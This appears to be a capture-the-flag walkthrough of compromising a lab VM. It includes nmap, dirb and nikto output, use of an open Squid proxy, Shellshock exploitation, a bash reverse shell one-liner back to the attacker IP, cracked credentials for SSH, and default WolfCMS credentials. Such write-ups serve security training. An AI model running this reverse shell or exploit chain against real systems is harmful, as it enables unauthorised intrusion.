

Attacker IP: 10.0.0.22
Target IP: 10.0.0.33
Nmap scan report for 10.0.0.33
Host is up (0.0016s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
| 2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_ 256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open http-proxy Squid http proxy 3.1.19
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported: GET HEAD
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:68:BC:02 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
There is squid proxy, which seems to be open. Here's how I tested it.
curl -x 'http://10.0.0.33:3128/' http://10.0.0.22:8000

You can set a proxy in burp so your browser hits burp then burp hits proxy before hitting the final site.

Dirb can also be used with this proxy like this:
dirb http://10.0.0.33/ -p 10.0.0.33:3128
---- Scanning URL: http://10.0.0.33/ ----
+ http://10.0.0.33/cgi-bin/ (CODE:403|SIZE:285)
+ http://10.0.0.33/connect (CODE:200|SIZE:109)
+ http://10.0.0.33/index (CODE:200|SIZE:21)
+ http://10.0.0.33/index.php (CODE:200|SIZE:21)
+ http://10.0.0.33/robots (CODE:200|SIZE:45)
+ http://10.0.0.33/robots.txt (CODE:200|SIZE:45)
+ http://10.0.0.33/server-status (CODE:403|SIZE:290)


---- Scanning URL: http://10.0.0.33/wolfcms/ ----
+ http://10.0.0.33/wolfcms/composer (CODE:200|SIZE:403)
+ http://10.0.0.33/wolfcms/config (CODE:200|SIZE:0)
==> DIRECTORY: http://10.0.0.33/wolfcms/docs/
+ http://10.0.0.33/wolfcms/favicon.ico (CODE:200|SIZE:894)
+ http://10.0.0.33/wolfcms/index (CODE:200|SIZE:3975)
+ http://10.0.0.33/wolfcms/index.php (CODE:200|SIZE:3975)
==> DIRECTORY: http://10.0.0.33/wolfcms/public/
+ http://10.0.0.33/wolfcms/robots (CODE:200|SIZE:0)
+ http://10.0.0.33/wolfcms/robots.txt (CODE:200|SIZE:0)
---- Entering directory: http://10.0.0.33/wolfcms/docs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://10.0.0.33/wolfcms/public/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
root@kali:~# nikto -host http://10.0.0.33 -useproxy http://10.0.0.33:3128/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP: 10.0.0.33
+ Target Hostname: 10.0.0.33
+ Target Port: 80
+ Proxy: 10.0.0.33:3128
+ Start Time: 2018-06-15 13:49:42 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Retrieved via header: 1.0 localhost (squid/3.1.19)
+ Retrieved x-powered-by header: PHP/5.3.10-1ubuntu3.21
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ Uncommon header 'x-cache' found, with contents: MISS from localhost
+ Uncommon header 'x-cache-lookup' found, with contents: MISS from localhost:3128
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Server leaks inodes via ETags, header found with file /robots.txt, inode: 265381, size: 45, mtime: Fri Dec 4 19:35:02 2015
+ Server banner has changed from 'Apache/2.2.22 (Ubuntu)' to 'squid/3.1.19' which may suggest a WAF, load balancer or proxy is in place
+ Uncommon header 'x-squid-error' found, with contents: ERR_INVALID_REQ 0
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.12). Apache 2.0.65 (final release) and 2.2.29 are also current.
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.php
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ Uncommon header 'nikto-added-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ OSVDB-12184: /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F36-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F34-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-12184: /?=PHPE9568F35-D428-11d2-A769-00AA001ACF42: PHP reveals potentially sensitive information via certain HTTP requests that contain specific QUERY strings.
+ OSVDB-3233: /icons/README: Apache default file found.
The web server may have shellshock vulnerability. There is also wolfcms. There is wolfcms file upload vuln but it requires a password.
I was able to get shellshock to work. This helped http://blog.knapsy.com/blog/2014/10/07/basic-shellshock-exploitation/ I thought server responding with 500 meant that the code may not have executed.


This works for getting reverse shell on some systems: bash -i >& /dev/tcp/10.0.0.22/8000 0>&1


The top hashes are for john@123
That gets me into sickos account via ssh.

Rooted!

I looked at other walkthroughs. wolfcms can be exploited as well but it requires you to have creds to wolfcms. They are admin/admin...